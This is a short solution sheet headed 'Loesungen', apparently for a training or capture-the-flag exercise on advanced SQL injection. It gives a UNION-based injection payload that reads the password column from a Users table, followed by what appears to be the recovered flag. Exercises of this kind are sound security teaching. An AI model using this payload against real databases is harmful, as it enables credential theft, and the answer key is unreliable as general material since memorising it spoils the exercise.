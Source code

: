 # Loesungen


## SQL Injection Advanced
%' UNION SELECT pwd FROM Users WHERE username LIKE '%uni
sQL-iNJeCtion4EvERYonE


